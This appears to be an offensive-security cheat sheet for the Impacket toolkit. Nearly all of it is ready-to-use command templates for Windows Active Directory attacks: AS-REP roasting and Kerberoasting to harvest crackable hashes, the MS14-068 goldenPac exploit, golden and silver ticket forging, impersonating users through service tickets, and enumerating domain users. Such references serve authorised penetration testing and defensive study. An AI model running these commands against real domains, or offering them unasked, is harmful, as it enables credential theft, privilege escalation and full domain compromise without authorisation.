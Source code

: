 # Impacket

% impacket, windows, kerberos, 88

## GetNPUsers without password to get TGT (ASREPRoasting)
#plateform/linux #target/remote #cat/ATTACK/EXPLOIT 
```
GetNPUsers.py <domain>/<user> -no-pass -request -format hashcat
```

## GetNPUsers - attempt to list and get TGTs for those users that have the property 'Do not require Kerberos preauthentication' (ASREPRoasting)
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
GetNPUsers.py -dc-ip <rhost> <domain>/ -usersfile <users.txt> -format hashcat
```

## GetUSERSPN - find Service Principal Names that are associated with a normal user account (kerberoasting)
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
GetUserSPNs.py -request -dc-ip <dc_ip> <domain>/<user>:<password>
```

## MS14-068 - goldenPac
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
goldenPac.py -dc-ip <dc_ip> <domain>/<user>:'<password>'@<target>
```

## Ticketer - (golden ticket) - generate TGT/TGS tickets into ccache format which can be converted further into kirbi.
#plateform/linux #target/local  #cat/ATTACK/EXPLOIT
```
ticketer.py -nthash <nthash> -domain-sid <domain_sid> -domain <domain> <user>
```

## Ticketer - (silver ticket) - generate TGS tickets into ccache format which can be converted further into kirbi.
#plateform/linux #target/local  #cat/ATTACK/EXPLOIT
```
ticketer.py -nthash <nthash> -domain-sid <domain_sid> -domain <domain> -spn <SPN> <user>
```

## TicketConverter - convert kirbi files (commonly used by mimikatz) into ccache files used by impacket
#plateform/linux #target/local  #cat/UTILS
```
ticketConverter.py <ccache_ticket_file> <ticket_kirbi_file>
```

## Silver ticket - impersonate user
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT 
```
getST.py -spn cifs/<target> <domain>/<netbios_name>\$ -impersonate <user>
```

## GetTGT - request a TGT and save it as ccache for given a password, hash or aesKey
#plateform/linux #target/remote  #cat/UTILS
```
getTGT.py -dc-ip <dc_ip> -hashes <lm_hash>:<nt_hash> <domain>/<user>
```

## GetADUser - gather data about the domain's users and their corresponding email addresses
#plateform/linux #target/remote  #cat/RECON 
```
GetADUsers.py -all <domain>/<user>:<password> -dc-ip <dc_ip>
```
